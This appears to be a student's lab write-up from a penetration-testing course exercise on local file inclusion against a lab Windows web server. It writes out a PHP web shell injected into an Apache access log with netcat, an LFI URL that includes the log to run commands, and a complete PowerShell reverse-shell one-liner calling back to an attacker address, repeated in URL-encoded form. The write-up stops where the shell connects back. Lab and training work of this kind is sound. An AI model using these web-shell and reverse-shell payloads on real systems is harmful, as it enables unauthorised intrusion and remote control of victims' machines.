


### 9.4.4.5 Exercises
#### 1. Obtain code execution through the use of the LFI attack.

1. Use netcat to send code

   ```bash
   # Connect to webserver
   netcat -nv 192.168.216.10 80
   # Send the code
   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
   ```

2. Use the Log file in the LFI payload

   ```bash
   http://192.168.216.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=route print
   ```


   


#### 2. Use the code execution to obtain a full shell.

Using the same LFI as above, but submitted the following Powershell code:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Encoded this for URL format using Burp Suite:

```bash
%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%24%63%6c%69%65%6e%74%20%3d%20%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%27%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%27%2c%34%34%33%29%3b%24%73%74%72%65%61%6d%20%3d%20%24%63%6c%69%65%6e%74%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%79%74%65%73%20%3d%20%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%20%3d%20%24%73%74%72%65%61%6d%2e%52%65%61%64%28%24%62%79%74%65%73%2c%20%30%2c%20%24%62%79%74%65%73%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%61%74%61%20%3d%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%2d%54%79%70%65%4e%61%6d%65%20%53%79%73%74%65%6d%2e%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%79%74%65%73%2c%30%2c%20%24%69%29%3b%24%73%65%6e%64%62%61%63%6b%20%3d%20%28%69%65%78%20%24%64%61%74%61%20%32%3e%26%31%20%7c%20%4f%75%74%2d%53%74%72%69%6e%67%20%29%3b%24%73%65%6e%64%62%61%63%6b%32%20%3d%20%24%73%65%6e%64%62%61%63%6b%20%2b%20%27%50%53%20%27%20%2b%20%28%70%77%64%29%2e%50%61%74%68%20%2b%20%27%3e%20%27%3b%24%73%65%6e%64%62%79%74%65%20%3d%20%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%24%73%65%6e%64%62%61%63%6b%32%29%3b%24%73%74%72%65%61%6d%2e%57%72%69%74%65%28%24%73%65%6e%64%62%79%74%65%2c%30%2c%24%73%65%6e%64%62%79%74%65%2e%4c%65%6e%67%74%68%29%3b%24%73%74%72%65%61%6d%2e%46%6c%75%73%68%28%29%7d%3b%24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22
```



Once the URL was requested, the Windows machine connected back to Kali:

